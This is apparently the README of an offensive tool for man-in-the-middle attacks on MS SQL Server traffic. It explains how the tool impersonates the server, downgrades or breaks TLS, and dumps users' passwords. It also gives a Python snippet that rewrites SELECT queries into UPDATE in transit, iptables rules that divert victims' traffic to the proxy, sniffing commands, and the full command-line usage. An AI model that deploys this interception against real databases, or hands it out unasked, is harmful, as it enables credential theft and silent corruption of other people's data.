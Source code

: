 # MITM SQL proxy (TLS supported)

Tool for MS SQL Man In The Middle attack which supports TLS encryption. 

## How it works:
It listens for connection pretending to be a real MS SQL server, decrypts traffic to obtain credentials or manipulate the queries and connect back to real SQL server and forward traffic.
When possible it downgrades connection to non-encrypted on both sides, if not it decrypts and encrypts data on-the-fly (on one or both sides depending on need) giving access to unencrypted data if only certificate is not verified on client side (which is default on most applications) or user can provide appropriate acceptable certificate.

In the future also server emulation option is planned - no SQL server will be needed to obtain credentials from the client.

## Dumping passwords
It shows passwords of connected users as well as those created or altered (changed) during the connection.

![screen](https://github.com/defragmentator/mitmsqlproxy/blob/master/screen.png?raw=true)



## Easy sniffing
To allow easy sniffing decrypted traffic by default is passing by loop on 127.0.0.1:1434
```
tcpdump -i lo port 1434 -X
```
## Easy queries manipulation
Traffic can be also easy redirected to some other middle application to manipulate queries. It needs to listen on some port, manipulate the data and send it back to some other port. All processed data is already decrypted.

As example *manipulation_example.py3* show how to change all SELECT queries to UPDATE on-the-fly:

```python
...
    def dataReceived(self, data):
        i = data.find("SELECT".encode('utf-16le'))
        if i > -1:
            print("FOUND: SELECT - replacing to UPDATE")
            rstr = "UPDATE".encode('utf-16le')
            data = data[:i] + rstr + data[i + len(rstr):]
...
```

```
./mitmsqlproxy.py 192.168.123.2 -d -lcp 1444 &

./manipulation_example.py
```

## No certificate needed
Self-signed certificate is generated on-the-fly. For default configuration of SQL libraries, it will work (only login packet is encrypted).
If on client side full encryption is forced ("Encrypt connection" is selected or "Encrypt=true;" is present in the connection string) **it will work only when "Trust server certificate" is selected or 'TrustServerCertificate=true' is in connection string**. Trusted cerificate can be also provided in command line.

If needed custom user cert can be loaded from a file.

## Transparent traffic redirection 
If traffic goes through the machine interface it can be redirected to listening port with iptables like this:
```
sysctl net.ipv4.ip_forward=1 
iptables -t nat -A PREROUTING -p tcp --dport 1433 -j DNAT --to-destination 127.0.0.1:1433
```

## Command line options
```
usage: mitmsqlproxy.py [-h] [-port PORT] [-lport LPORT] [-q | -d | -dd] [-ll ip_address] [-llp port]
                       [-lc ip_address] [-lcp port] [--disable-loop] [--cert my.crt] [--key my.key]
                       target

MSSQL MITM proxy (SSL supported).

positional arguments:
  target          MSSQL server name or address

options:
  -h, --help      show this help message and exit
  -port PORT      MSSQL server port (default 1433)
  -lport LPORT    local listening port (default 1433)
  -q              quiet mode
  -d              show more info
  -dd             show debug info

Internal connection loop - decrypted data is sent to certain port (default 127.0.0.1:1434) and coming back to mitmslqproxy to be encrypted and send further. This option allows to sniff or even modify unencrypted SQL traffic in the fly with third party application:
  -ll ip_address  loop listening address (default 127.0.0.1)
  -llp port       loop listening address port (default 1434)
  -lc ip_address  loop connecting address (default 127.0.0.1)
  -lcp port       loop connecting address port (default 1434)
  --disable-loop  disable internal loop - if both sides will negotiate encryption sniffing will be
                  useless, only credentials will be shown on console (raw data only in debug mode)

TLS custom private key and certificate (by default it is dynamically generated):
  --cert my.crt   certificate file
  --key my.key    private key file
```
